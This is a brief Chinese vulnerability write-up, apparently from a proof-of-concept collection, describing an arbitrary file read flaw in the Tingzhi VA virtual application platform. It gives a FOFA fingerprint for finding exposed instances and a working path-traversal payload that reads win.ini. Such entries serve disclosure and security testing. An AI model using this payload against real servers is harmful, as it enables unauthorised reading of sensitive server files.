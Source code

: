 # 霆智科技 VA虚拟应用平台 任意文件读取漏洞

## 漏洞描述

霆智科技 VA虚拟应用平台 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中敏感信息

## 漏洞影响

霆智科技 VA虚拟应用平台

## FOFA

```
body="EAA益和应用接入系统"
```

## 漏洞复现

登陆页面

![image-20230704111747376](D:\TMP_FILE\awesome-poc\webapp\images\image-20230704111747376.png) 

验证POC

```
/..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/windows/win.ini
```

![image-20230704112349037](D:\TMP_FILE\awesome-poc\webapp\images\image-20230704112349037.png)